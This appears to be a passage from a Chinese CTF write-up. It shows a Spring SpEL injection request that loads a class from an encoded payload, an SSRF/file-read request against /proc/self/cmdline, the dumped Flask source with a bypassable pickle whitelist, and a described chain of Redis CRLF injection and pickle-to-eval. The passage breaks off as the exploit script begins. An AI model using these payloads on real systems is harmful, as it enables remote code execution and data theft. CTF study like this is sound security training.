Host: 127.0.0.1:33333
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
sec-ch-ua: "Chromium";v="146", "Not-A.Brand";v="24", "Google Chrome";v="146"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cookie: JSESSIONID=44524BE71CC6BE603DFC380A0BFEBBB4
Connection: keep-alive
```

触发

```http
GET /admin?section=%5F%5F%7C%24%24%7Bnew%2Eorg%2Espringframework%2Eexpression%2Espel%2Estandard%2ESpelExpressionParser%28%29%2EparseExpression%28%221%2EgetClass%28%29%2EforName%28%27org%2Espringframework%2Ecglib%2Ecore%2EReflectUtils%27%29%2EdefineClass%28%27org%2Espringframework%2Eexpression%2EA%27%2Cnew%2Ejava%2Eutil%2Ezip%2EGZIPInputStream%28new%2Ejava%2Eio%2EByteArrayInputStream%281%2EgetClass%28%29%2EforName%28%27org%2Espringframework%2Eutil%2EBase64Utils%27%29%2EdecodeFromString%28%27%27%2EgetClass%28%29%2EforName%28%27java%2Elang%2ESystem%27%29%2EgetProperty%28%27part1%27%29%29%29%29%2EreadAllBytes%28%29%2C1%2EgetClass%28%29%2EforName%28%27org%2Espringframework%2Eexpression%2EExpressionParser%27%29%2EgetClassLoader%28%29%2Cnull%2C1%2EgetClass%28%29%2EforName%28%27org%2Espringframework%2Eexpression%2EExpressionParser%27%29%29%2EgetDeclaredConstructor%28%29%2EnewInstance%28%29%22%29%2EgetValue%28%29%7D%7C%5F%5F%3A%3A%2Ex HTTP/1.1
Host: 127.0.0.1:33333
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
sec-ch-ua: "Chromium";v="146", "Not-A.Brand";v="24", "Google Chrome";v="146"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cookie: JSESSIONID=44524BE71CC6BE603DFC380A0BFEBBB4
Connection: keep-alive
```




## auth

注册一个用户登录后台发现有任意文件读取，直接读取进程

```http
POST /profile/avatar HTTP/1.1
Host: 77eddae7-91fe-4b82-8582-8c89b0b2442d.99.dart.ccsssc.com
Content-Length: 79
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Origin: http://77eddae7-91fe-4b82-8582-8c89b0b2442d.99.dart.ccsssc.com
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://77eddae7-91fe-4b82-8582-8c89b0b2442d.99.dart.ccsssc.com/profile/avatar
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInJvbGUiOiJ1c2VyIiwidXNlcm5hbWUiOiJ0ZXN0MTIzIn0.abS1YQ.vHm3d4eInPbHrhV_hA92uMQJ494
Connection: keep-alive

avatar_url=file:///proc/self/cmdline&upload_type=%E4%BB%8EURL%E4%B8%8B%E8%BD%BD
```

发现是 app.py

```python
from flask import Flask, request, jsonify, render_template_string, session, redirect, url_for
import redis
import pickle
import requests
import base64
import os
import io
import datetime
import urllib.request
import urllib.error
import secrets
import json

app = Flask(__name__, static_folder='static', static_url_path='/static')

def render_page(title, content, username=None, role=None, show_nav=True):
    """ç”Ÿæˆå¸¦æœ‰æ ·å¼çš„HTML页面
    
    Args:
        title: é¡µé¢æ ‡é¢˜
        content: 主要内容HTML
        username: 当前用户名（可选）
        role: 用户角色（可选）
        show_nav: 是否显示导航（默认True）
    """
    # 导航菜单
    nav_menu = ''
    if show_nav:
        if username:
            nav_menu = f'''
            <nav>
                <ul>
                    <li><a href="/home">用户中心</a></li>
                    <li><a href="/profile">个人属性</a></li>
            '''

            if role == 'admin':
                nav_menu += '''
                    <li><a href="/admin/online-users">在线用户</a></li>
                    <li><a href="/admin/users">注册用户</a></li>
                '''

            nav_menu += f'''
                    <li><a href="/logout">退出登录</a></li>
                </ul>
            </nav>
            '''
        else:
            nav_menu = '''
            <nav>
                <ul>
                    <li><a href="/login">登录</a></li>
                    <li><a href="/register">注册</a></li>
                </ul>
            </nav>
            '''

    # 用户信息显示
    user_info = ''
    if username:
        user_info = f'<div class="user-info">欢迎, {username}！ (角色: {role})</div>'

    html = f'''
    <!DOCTYPE html>
    <html lang="zh-CN">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>{title} - auth</title>
        <link rel="stylesheet" href="/static/style.css">
        <link rel="icon" href="data:image/svg+xml,<svg xmlns=%22http://www.w3.org/2000/svg%22 viewBox=%220 0 100 100%22><text y=%22.9em%22 font-size=%2290%22>🔒</text></svg>">
    </head>
    <body>
        <div class="container">
            <header>
                <h1>{title}</h1>
                {user_info}
            </header>
            
            {nav_menu}
            
            <main>
                {content}
            </main>
            
            <footer>
                <p>© 2026 auth | 简约安全设计</p>
            </footer>
        </div>
        
        <script src="/static/script.js"></script>
    </body>
    </html>
    '''
    return html

class User:
    def __init__(self, username, password=None):
        self.username = username
        self.password = password
        self.role = "user"
        self.created_at = "2026-01-20"

    def __repr__(self):
        return f"User(username={self.username!r}, role={self.role!r})"


class OnlineUser:
    """在线用户类，用于保存登录状态信息"""
    def __init__(self, username, role="user"):
        self.username = username
        self.role = role
        self.login_time = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        # 设置失效时间为登录时间后1小时
        expiry = datetime.datetime.now() + datetime.timedelta(hours=1)
        self.expiry_time = expiry.strftime("%Y-%m-%d %H:%M:%S")
        self.ip_address = request.remote_addr if request else "unknown"
    
    def __repr__(self):
        return f"OnlineUser(username={self.username!r}, role={self.role!r}, login_time={self.login_time!r}, expiry_time={self.expiry_time!r})"


class RestrictedUnpickler(pickle.Unpickler):
    """限制性的Unpickler，只允许OnlineUser类和安全的内置函数"""
    
    ALLOWED_CLASSES = {
        '__main__.OnlineUser': OnlineUser,
        'builtins': __builtins__
    }
    
    def find_class(self, module: str, name: str):
        full_name = f"{module}.{name}"
        
        # 允许builtins模块的基础类型和安全函数
        if module == "builtins" and name in ["getattr", "setattr", "dict", "list", "tuple"]:
            return getattr(__builtins__, name)

        # 白名单检查
        if full_name in self.ALLOWED_CLASSES:
            return self.ALLOWED_CLASSES[full_name]
        
        raise pickle.UnpicklingError(f"Class '{full_name}' is not allowed")


# Redis配置
CONFIG_FILE_PATH = '/opt/app_config/redis_config.json'

# 默认配置值
REDIS_HOST = 'localhost'
REDIS_PORT = 6379
REDIS_PASSWORD = '123456'

# 尝试从配置文件读取配置
try:
    if os.path.exists(CONFIG_FILE_PATH):
        print(f"从配置文件读取Redis配置: {CONFIG_FILE_PATH}")
        with open(CONFIG_FILE_PATH, 'r') as config_file:
            config = json.load(config_file)
        
        # 从配置文件获取配置值，如果不存在则使用默认值
        REDIS_HOST = config.get('redis_host', REDIS_HOST)
        REDIS_PORT = config.get('redis_port', REDIS_PORT)
        REDIS_PASSWORD = config.get('redis_password', REDIS_PASSWORD)
        
        print(f"配置文件读取成功: host={REDIS_HOST}, port={REDIS_PORT}")
        
        try:
            os.remove(CONFIG_FILE_PATH)
            print(f"é…ç½®æ–‡ä»¶å·²åˆ é™¤: {CONFIG_FILE_PATH}")
        except Exception as delete_error:
            print(f"è­¦å‘Šï¼šæ— æ³•åˆ é™¤é…ç½®æ–‡ä»¶ {CONFIG_FILE_PATH}: {delete_error}")
    else:
        print(f"配置文件不存在: {CONFIG_FILE_PATH}，使用默认Redis配置")
except Exception as config_error:
    print(f"配置文件读取失败: {config_error}，使用默认Redis配置")

# 连接Redis
try:
    r = redis.Redis(host=REDIS_HOST, port=REDIS_PORT, password=REDIS_PASSWORD, decode_responses=False)
    r.ping()
    print(f"Redis连接成功: {REDIS_HOST}:{REDIS_PORT}")
    
    # 从Redis获取或生成随机secret_key
    SECRET_KEY_REDIS_KEY = 'app:secret_key'
    secret_key = r.get(SECRET_KEY_REDIS_KEY)
    if secret_key is None:
        # 生成新的随机密钥（64个字符的十六进制字符串）
        secret_key = secrets.token_hex(32)
        r.set(SECRET_KEY_REDIS_KEY, secret_key)
        print(f"已生成新的随机secret_key并保存到Redis: {SECRET_KEY_REDIS_KEY}")
    else:
        # Redis返回的是bytesï¼Œéœ€è¦è§£ç ä¸ºå­—ç¬¦ä¸²
        if isinstance(secret_key, bytes):
            secret_key = secret_key.decode('utf-8')
        print(f"从RedisåŠ è½½çŽ°æœ‰çš„secret_key: {SECRET_KEY_REDIS_KEY}")
    
    # 设置Flask应用的secret_key
    app.secret_key = secret_key
    print(f"Flask secret_key已设置（长度: {len(secret_key)}）")
    
except Exception as e:
    print(f"Redis连接失败: {e}")
    r = None


@app.route('/')
def index():
    return redirect(url_for('login'))


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form.get('username', '')
        password = request.form.get('password', '')
        
        if not username or not password:
            return 'ç”¨æˆ·åå’Œå¯†ç ä¸èƒ½ä¸ºç©º'
        
        # 检查用户是否存在
        if r is None:
            return 'Redisè¿žæŽ¥å¤±è´¥ï¼Œæ— æ³•éªŒè¯ç”¨æˆ·'
        
        # 从RedisèŽ·å–ç”¨æˆ·å¯†ç å“ˆå¸Œ
        stored_password = r.hget(f'user:{username}', 'password')
        if stored_password is None:
            return 'ç”¨æˆ·ä¸å­˜åœ¨æˆ–å¯†ç é”™è¯¯'
        
        # ç®€å•å¯†ç éªŒè¯
        if stored_password.decode('utf-8') != password:
            return 'ç”¨æˆ·ä¸å­˜åœ¨æˆ–å¯†ç é”™è¯¯'
        
        # 登录成功，设置session
        session['username'] = username
        session['logged_in'] = True
        
        # 获取用户角色
        role_data = r.hget(f'user:{username}', 'role')
        role = role_data.decode('utf-8') if role_data else 'user'
        session['role'] = role
        
        online_user = OnlineUser(username, role)
        serialized_user = pickle.dumps(online_user)
        r.set(f'online_user:{username}', serialized_user, ex=3600)  # 设置1小时过期
        
        return redirect(url_for('home'))
    
    login_form = '''
    <div class="form-container">
        <h2>用户登录</h2>
        <form method="post" class="login-form">
            <div class="form-group">
                <label for="username">用户名</label>
                <input type="text" id="username" name="username" required placeholder="请输入用户名">
            </div>
            <div class="form-group">
                <label for="password">å¯†ç </label>
                <input type="password" id="password" name="password" required placeholder="è¯·è¾“å…¥å¯†ç ">
            </div>
            <div class="form-group">
                <button type="submit" class="btn btn-success" style="width: 100%; padding: 12px;">登录</button>
            </div>
        </form>
        <div class="text-center mt-20">
            <p>还没有账号？ <a href="/register" class="btn btn-secondary btn-small">注册新账户</a></p>
        </div>
    </div>
    '''
    
    return render_page('登录', login_form, show_nav=False)


# 用户注册
@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form.get('username', '')
        password = request.form.get('password', '')
        confirm_password = request.form.get('confirm_password', '')
        name = request.form.get('name', '')
        age = request.form.get('age', '')
        phone = request.form.get('phone', '')
        
        if not username or not password:
            return 'ç”¨æˆ·åå’Œå¯†ç ä¸èƒ½ä¸ºç©º'
        
        if password != confirm_password:
            return 'ä¸¤æ¬¡è¾“å…¥çš„å¯†ç ä¸ä¸€è‡´'
        
        if r is None:
            return 'Redisè¿žæŽ¥å¤±è´¥ï¼Œæ— æ³•æ³¨å†Œç”¨æˆ·'
        
        # 检查用户是否已存在
        if r.hexists(f'user:{username}', 'password'):
            return '用户名已存在'
        
        user_data = {
            'password': password,
            'role': 'user',
            'created_at': '2026-01-20',
            'name': name if name else username,  # 如果未提供姓名，默认使用用户名
            'age': age if age else '0',
            'phone': phone if phone else '未填写',
            'avatar': ''  # 默认头像为空
        }
        
        r.hset(f'user:{username}', mapping=user_data)
        
        success_content = f'''
        <div class="message message-success">
            <h3>注册成功！</h3>
            <p>用户 <strong>{username}</strong> 已成功注册。</p>
            <p><a href="/login" class="btn btn-success mt-10">前往登录</a></p>
        </div>
        '''
        return render_page('注册成功', success_content, show_nav=False)
    
    register_form = '''
    <div class="form-container">
        <h2>用户注册</h2>
        <form method="post" class="register-form">
            <div class="form-group">
                <label for="username">用户名 <span class="required">*</span></label>
                <input type="text" id="username" name="username" required placeholder="请输入用户名">
            </div>
            
            <div class="form-group">
                <label for="password">å¯†ç  <span class="required">*</span></label>
                <input type="password" id="password" name="password" required placeholder="è¯·è¾“å…¥å¯†ç ">
            </div>
            
            <div class="form-group">
                <label for="confirm_password">ç¡®è®¤å¯†ç  <span class="required">*</span></label>
                <input type="password" id="confirm_password" name="confirm_password" required placeholder="è¯·å†æ¬¡è¾“å…¥å¯†ç ">
            </div>
            
            <div class="form-group">
                <label for="name">姓名</label>
                <input type="text" id="name" name="name" placeholder="可选，默认为用户名">
            </div>
            
            <div class="form-group">
                <label for="age">年龄</label>
                <input type="number" id="age" name="age" min="0" max="150" placeholder="可选">
            </div>
            
            <div class="form-group">
                <label for="phone">æ‰‹æœºå·ç </label>
                <input type="tel" id="phone" name="phone" placeholder="可选">
            </div>
            
            <div class="form-group">
                <button type="submit" class="btn btn-success" style="width: 100%; padding: 12px;">注册</button>
            </div>
        </form>
        
        <div class="text-center mt-20">
            <p>已有账号？ <a href="/login" class="btn btn-secondary btn-small">返回登录</a></p>
        </div>
    </div>
    '''
    
    return render_page('注册', register_form, show_nav=False)


@app.route('/home')
def home():
    if not session.get('logged_in'):
        return redirect(url_for('login'))
    
    username = session.get('username', '访客')
    role = session.get('role', 'user')
    
    admin_link = ''
    if role == 'admin':
        admin_link = '<li><a href="/admin/online-users">管理在线用户</a> - 查看所有在线用户信息</li>\n        <li><a href="/admin/users">管理注册用户</a> - 查看所有注册用户信息</li>'
    
    main_content = f'''
    <div class="dashboard">
        <div class="welcome-message">
            <h2>欢迎回来，{username}！</h2>
            <p class="role-badge">角色: <span class="badge">{role}</span></p>
        </div>
        
        <div class="dashboard-cards">
            <div class="card">
                <h3>个人信息</h3>
                <p>æŸ¥çœ‹å’Œç¼–è¾‘æ‚¨çš„ä¸ªäººèµ„æ–™ï¼ŒåŒ…æ‹¬å¤´åƒä¸Šä¼ </p>
                <a href="/profile" class="btn btn-success mt-10">管理个人信息</a>
            </div>
    '''
    
    if role == 'admin':
        main_content += '''
            <div class="card">
                <h3>用户管理</h3>
                <p>管理系统中的用户</p>
                <div class="flex flex-column gap-10 mt-10">
                    <a href="/admin/online-users" class="btn btn-small">在线用户</a>
                    <a href="/admin/users" class="btn btn-small">注册用户</a>
                </div>
            </div>
        '''
    
    main_content += '''
        </div>
        
        <div class="quick-actions mt-30">
            <h3>快速操作</h3>
            <div class="flex gap-10">
                <a href="/logout" class="btn btn-danger">退出登录</a>
            </div>
        </div>
    </div>
    '''
    
    return render_page('用户中心', main_content, username, role)


@app.route('/admin/online-users')
def admin_online_users():
    if not session.get('logged_in'):
        return redirect(url_for('login'))
    
    if session.get('role') != 'admin':
        return '权限不足，需要管理员权限'
    
    if r is None:
        return 'Redis连接失败'
    
    # 获取所有在线用户键
    online_keys = r.keys('online_user:*')
    
    if not online_keys:
        return '没有在线用户'
    
    users_html = '<h1>在线用户列表</h1><table border="1" style="border-collapse: collapse; width: 100%;">'
    users_html += '<tr><th>用户名</th><th>角色</th><th>登录时间</th><th>失效时间</th><th>IP地址</th><th>状态</th></tr>'
    
    for key in online_keys:
        try:
            serialized = r.get(key)
            if serialized:
                file = io.BytesIO(serialized)
                unpickler = RestrictedUnpickler(file)
                online_user = unpickler.load()
                
                expiry_time = datetime.datetime.strptime(online_user.expiry_time, "%Y-%m-%d %H:%M:%S")
                current_time = datetime.datetime.now()
                status = '在线' if current_time < expiry_time else '已过期'
                
                users_html += f'''
                <tr>
                    <td>{online_user.username}</td>
                    <td>{online_user.role}</td>
                    <td>{online_user.login_time}</td>
                    <td>{online_user.expiry_time}</td>
                    <td>{online_user.ip_address}</td>
                    <td style="color: {'green' if status == '在线' else 'red'}">{status}</td>
                </tr>
                '''
        except Exception as e:
            users_html += f'<tr><td colspan="6">反序列化错误: {e}</td></tr>'
    
    users_html += '</table>'
    
    # 获取当前用户信息用于render_page
    current_username = session.get('username', '')
    current_role = session.get('role', '')
    
    users_html += '''
    <div class="admin-actions mt-30">
        <a href="/admin/users" class="btn btn-secondary">查看注册用户</a>
        <a href="/home" class="btn">返回用户中心</a>
    </div>
    '''
    
    return render_page('在线用户管理', users_html, current_username, current_role)


@app.route('/admin/users')
def admin_users():
    if not session.get('logged_in'):
        return redirect(url_for('login'))
    
    if session.get('role') != 'admin':
        return '权限不足，需要管理员权限'
    
    if r is None:
        return 'Redis连接失败'
    
    # 获取所有用户键
    user_keys = r.keys('user:*')
    
    if not user_keys:
        return '没有注册用户'
    
    users_html = '<h1>注册用户列表</h1><table border="1" style="border-collapse: collapse; width: 100%;">'
    users_html += '<tr><th>用户名</th><th>角色</th><th>姓名</th><th>年龄</th><th>æ‰‹æœºå·ç </th><th>创建时间</th></tr>'
    
    for key in user_keys:
        try:
            user_data = r.hgetall(key)
            if user_data:
                user_info = {}
                for field, value in user_data.items():
                    field_str = field.decode('utf-8') if isinstance(field, bytes) else field
                    value_str = value.decode('utf-8') if isinstance(value, bytes) else value
                    user_info[field_str] = value_str
                
                username = key.decode('utf-8').replace('user:', '') if isinstance(key, bytes) else key.replace('user:', '')
                role = user_info.get('role', 'user')
                name = user_info.get('name', username)
                age = user_info.get('age', '0')
                phone = user_info.get('phone', '未填写')
                created_at = user_info.get('created_at', '未知')
                
                users_html += f'''
                <tr>
                    <td>{username}</td>
                    <td>{role}</td>
                    <td>{name}</td>
                    <td>{age}</td>
                    <td>{phone}</td>
                    <td>{created_at}</td>
                </tr>
                '''
        except Exception as e:
            users_html += f'<tr><td colspan="6">获取用户信息错误: {e}</td></tr>'
    
    users_html += '</table>'
    
    current_username = session.get('username', '')
    current_role = session.get('role', '')
    
    users_html += '''
    <div class="admin-actions mt-30">
        <a href="/admin/online-users" class="btn btn-secondary">查看在线用户</a>
        <a href="/home" class="btn">返回用户中心</a>
    </div>
    '''
    
    return render_page('注册用户管理', users_html, current_username, current_role)


@app.route('/profile')
def profile():
    if not session.get('logged_in'):
        return redirect(url_for('login'))
    
    username = session.get('username', '')
    if not username or r is None:
        return 'æ— æ³•èŽ·å–ç”¨æˆ·ä¿¡æ¯'
    
    # 从Redis获取用户信息
    user_data = r.hgetall(f'user:{username}')
    if not user_data:
        return '用户信息不存在'
    
    user_info = {}
    for key, value in user_data.items():
        user_info[key.decode('utf-8') if isinstance(key, bytes) else key] = \
            value.decode('utf-8') if isinstance(value, bytes) else value
    
    name = user_info.get('name', username)
    age = user_info.get('age', '0')
    phone = user_info.get('phone', '未填写')
    avatar = user_info.get('avatar', '')
    role = user_info.get('role', 'user')
    created_at = user_info.get('created_at', '未知')
    
    # 判断头像类型：URL或本地文件
    if avatar.startswith('http://') or avatar.startswith('https://'):
        avatar_src = avatar
    else:
        avatar_src = ''
    
    # 构建个人资料内容
    profile_content = f'''
    <div class="profile-container">
        <div class="profile-header">
            <h2>个人资料</h2>
            <p>查看和管理您的个人信息</p>
        </div>
        
        <div class="profile-content">
            <div class="profile-avatar-section">
                <div class="avatar-preview">
                    
                </div>
                <div class="avatar-actions">
                    <a href="/profile/avatar" class="btn btn-success">更换头像</a>
                </div>
            </div>
            
            <div class="profile-info-section">
                <h3>基本信息</h3>
                <table class="profile-info-table">
                    <tr>
                        <th>用户名</th>
                        <td>{username}</td>
                    </tr>
                    <tr>
                        <th>姓名</th>
                        <td>{name}</td>
                    </tr>
                    <tr>
                        <th>年龄</th>
                        <td>{age}</td>
                    </tr>
                    <tr>
                        <th>æ‰‹æœºå·ç </th>
                        <td>{phone}</td>
                    </tr>
                    <tr>
                        <th>角色</th>
                        <td><span class="badge">{role}</span></td>
                    </tr>
                    <tr>
                        <th>注册时间</th>
                        <td>{created_at}</td>
                    </tr>
                </table>
                
                <div class="profile-actions mt-30">
                    <a href="/profile/edit" class="btn btn-success">编辑个人资料</a>
                    <a href="/home" class="btn btn-secondary">返回用户中心</a>
                </div>
            </div>
        </div>
    </div>
    '''
    
    return render_page('个人属性', profile_content, username, role)


# 编辑个人属性
@app.route('/profile/edit', methods=['GET', 'POST'])
def edit_profile():
    if not session.get('logged_in'):
        return redirect(url_for('login'))
    
    username = session.get('username', '')
    if not username or r is None:
        return 'æ— æ³•èŽ·å–ç”¨æˆ·ä¿¡æ¯'
    
    if request.method == 'POST':
        # 获取表单数据
        name = request.form.get('name', '')
        age = request.form.get('age', '')
        phone = request.form.get('phone', '')
        
        # 验证年龄是否为数字
        if age and not age.isdigit():
            return '年龄必须是数字'
        
        # 获取当前用户信息
        current_data = r.hgetall(f'user:{username}')
        if not current_data:
            return '用户信息不存在'
        
        # æ›´æ–°ç”¨æˆ·ä¿¡æ¯ï¼ˆä¿ç•™å¯†ç å’Œè§’è‰²ç­‰å­—æ®µï¼‰
        updates = {}
        if name:
            updates['name'] = name
        if age:
            updates['age'] = age
        if phone:
            updates['phone'] = phone
        
        # 只更新有变化的字段
        if updates:
            r.hset(f'user:{username}', mapping=updates)
        
        return redirect(url_for('profile'))
    
    # GET请求，显示编辑表单
    # 获取当前用户信息
    user_data = r.hgetall(f'user:{username}')
    if not user_data:
        return '用户信息不存在'
    
    # è§£ç å­—èŠ‚æ•°æ®ä¸ºå­—ç¬¦ä¸²
    user_info = {}
    for key, value in user_data.items():
        user_info[key.decode('utf-8') if isinstance(key, bytes) else key] = \
            value.decode('utf-8') if isinstance(value, bytes) else value
    
    # 获取当前值
    current_name = user_info.get('name', username)
    current_age = user_info.get('age', '0')
    current_phone = user_info.get('phone', '未填写')
    
    # 构建编辑表单
    edit_form = f'''
    <div class="form-container">
        <h2>编辑个人资料</h2>
        <p>更新您的个人信息</p>
        
        <form method="post" class="edit-form">
            <div class="form-group">
                <label for="name">姓名</label>
                <input type="text" id="name" name="name" value="{current_name}" placeholder="请输入您的姓名">
            </div>
            
            <div class="form-group">
                <label for="age">年龄</label>
                <input type="number" id="age" name="age" value="{current_age}" min="0" max="150" placeholder="请输入您的年龄">
            </div>
            
            <div class="form-group">
                <label for="phone">æ‰‹æœºå·ç </label>
                <input type="tel" id="phone" name="phone" value="{current_phone}" placeholder="è¯·è¾“å…¥æ‚¨çš„æ‰‹æœºå·ç ">
            </div>
            
            <div class="form-group">
                <button type="submit" class="btn btn-success">保存修改</button>
                <a href="/profile" class="btn btn-secondary" style="margin-left: 15px;">取消</a>
            </div>
        </form>
        
        <div class="additional-actions mt-30">
            <h3>其他操作</h3>
            <div class="flex gap-10">
                <a href="/profile/avatar" class="btn btn-small">更换头像</a>
                <a href="/profile" class="btn btn-small">返回个人资料</a>
                <a href="/home" class="btn btn-small">返回用户中心</a>
            </div>
        </div>
    </div>
    '''
    
    return render_page('编辑个人属性', edit_form, username, session.get('role', 'user'))


# 退出登录
@app.route('/logout')
def logout():
    session.clear()
    return redirect(url_for('login'))


# ç”¨æˆ·å¤´åƒä¸Šä¼ 
@app.route('/profile/avatar', methods=['GET', 'POST'])
def upload_avatar():
    # 检查用户是否登录
    if not session.get('logged_in'):
        return redirect(url_for('login'))
    
    username = session.get('username', '')
    if not username or r is None:
        return 'æ— æ³•èŽ·å–ç”¨æˆ·ä¿¡æ¯'
    
    if request.method == 'GET':
        # æ˜¾ç¤ºä¸Šä¼ è¡¨å•
        upload_form = f'''
        <div class="upload-container">
            <h2>ä¸Šä¼ å¤´åƒ</h2>
            <div class="user-info mb-20">
                <p><strong>当前用户:</strong> {username}</p>
            </div>
            
            <div class="upload-options">
                <div class="upload-option">
                    <h3>æ–¹å¼ä¸€ï¼šä¸Šä¼ å›¾ç‰‡æ–‡ä»¶</h3>
                    <div class="upload-form-card">
                        <form method="post" enctype="multipart/form-data" class="upload-form">
                            <div class="form-group">
                                <label for="avatar_file">选择图片文件</label>
                                <input type="file" id="avatar_file" name="avatar_file" accept="image/*" class="file-input">
                                <p class="help-text">支持 JPG, PNG, GIF ç­‰å›¾ç‰‡æ ¼å¼</p>
                            </div>
                            <div class="form-group">
                                <button type="submit" name="upload_type" value="ä¸Šä¼ æ–‡ä»¶" class="btn btn-success">ä¸Šä¼ æ–‡ä»¶</button>
                            </div>
                        </form>
                    </div>
                </div>
                
                <div class="upload-option">
                    <h3>方式二：提供图片URL</h3>
                    <div class="upload-form-card">
                        <form method="post" class="upload-form">
                            <div class="form-group">
                                <label for="avatar_url">图片URL地址</label>
                                <input type="text" id="avatar_url" name="avatar_url" placeholder="请输入图片URL地址" class="url-input">
                                <p class="help-text">请输入有效的图片URL地址</p>
                            </div>
                            <div class="form-group">
                                <button type="submit" name="upload_type" value="从URL下载" class="btn btn-success">从URL下载</button>
                            </div>
                        </form>
                    </div>
                </div>
            </div>
            
            <div class="upload-note mt-30">
                <div class="message">
                    <p><strong>注意：</strong>ä¸Šä¼ çš„å¤´åƒå°†æ˜¾ç¤ºåœ¨æ‚¨çš„ä¸ªäººèµ„æ–™ä¸­ã€‚</p>
                </div>
            </div>
            
            <div class="upload-actions mt-30">
                <a href="/profile" class="btn btn-secondary">返回个人属性</a>
            </div>
        </div>
        '''
        
        return render_page('ä¸Šä¼ å¤´åƒ', upload_form, username, session.get('role', 'user'))
    
    # POST请求处理
    upload_type = request.form.get('upload_type')
    
    if upload_type == 'ä¸Šä¼ æ–‡ä»¶':
        # å¤„ç†æ–‡ä»¶ä¸Šä¼ 
        if 'avatar_file' not in request.files:
            return 'è¯·é€‰æ‹©è¦ä¸Šä¼ çš„æ–‡ä»¶'
        
        file = request.files['avatar_file']
        if file.filename == '':
            return '请选择有效的文件'
        
        # 检查文件类型
        if file.content_type and not file.content_type.startswith('image/'):
            return 'åªèƒ½ä¸Šä¼ å›¾ç‰‡æ–‡ä»¶'
        
        return '功能尚未开发'
    
    elif upload_type == '从URL下载':
        url = request.form.get('avatar_url', '')
        if not url:
            return '请提供图片URL'
        
        try:
            # 使用urllib处理URL请求
            import urllib.parse
            
            # 解析URL获取主机和端口信息
            parsed = urllib.parse.urlparse(url)
            host = parsed.hostname
            port = parsed.port or (80 if parsed.scheme == 'http' else 443 if parsed.scheme == 'https' else None)
            
            # 使用urllib.request.urlopen发送请求
            req = urllib.request.Request(url)
            
            # 发送请求并获取响应
            response = urllib.request.urlopen(req, timeout=10)
            response_data = response.read()
            content_type = response.headers.get('Content-Type', '')
            status_code = response.getcode()
            
            r.hset(f'user:{username}', 'avatar', url)
            data_size = len(response_data)
            
            base64_data = base64.b64encode(response_data).decode('utf-8')
            
            # 创建base64图片数据URI
            # 如果content_typeä¸ºç©ºæˆ–æ— æ•ˆï¼Œä½¿ç”¨é»˜è®¤çš„image/png
            display_content_type = content_type if content_type else 'image/png'
            data_uri = f'data:{display_content_type};base64,{base64_data}'
            
            # 统一显示结果，使用imgæ ‡ç­¾å±•ç¤ºbase64ç¼–ç çš„å›¾ç‰‡æ•°æ®
            unified_content = f'''
            <div class="message">
                <h2>图片预览</h2>
                
                <div class="image-preview-container mt-20">
                    <div class="image-wrapper">
                        
                    </div>
                </div>
                
                <div class="preview-actions mt-30">
                    <a href="/profile" class="btn btn-success">查看个人属性</a>
                    <a href="/profile/avatar" class="btn btn-secondary">ç»§ç»­ä¸Šä¼ </a>
                </div>
            </div>
            '''
            
            return render_page('图片预览', unified_content, username, session.get('role', 'user'))
        
        except Exception as e:
            error_content = f'''
            <div class="message message-error">
                <h2>处理失败</h2>
                <div class="error-details">
                    <p><strong>错误信息:</strong> {e}</p>
                </div>
                <div class="error-actions mt-20">
                    <a href="/profile/avatar" class="btn btn-secondary">è¿”å›žä¸Šä¼ é¡µé¢</a>
                </div>
            </div>
            '''
            
            return render_page('处理失败', error_content, username, session.get('role', 'user'))
    
    else:
        return 'æ— æ•ˆçš„ä¸Šä¼ ç±»åž‹'


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=False)
```

虽然有很多乱码，但是还是很容易发现可以进行 pickle 反序列化，利用链路为写 Redis → 伪造/提升 admin → 向 `online_user:<你>` 写入恶意 pickle → 访问 `/admin/online-users` 触发反序列化

远程 Redis 密码是`redispass123`，打到这里发现思路有点问题，发现靶机还开启了 54321 端口，所以可以直接读取 root 本地 XML-RPC 服务源码拿到 token mcp_secure_token_b2rglxd，利用Python 3.7.3 的 urllib CRLF 注入盲写 Redis，opcode 的话，由于没有禁用`builtins`所以直接 getter 到 eval 即可，最终 exp 如下

```python
#!/usr/bin/env python3
import argparse
import base64
import re
import secrets
import string
import sys
from typing import Iterable, Optional

import requests

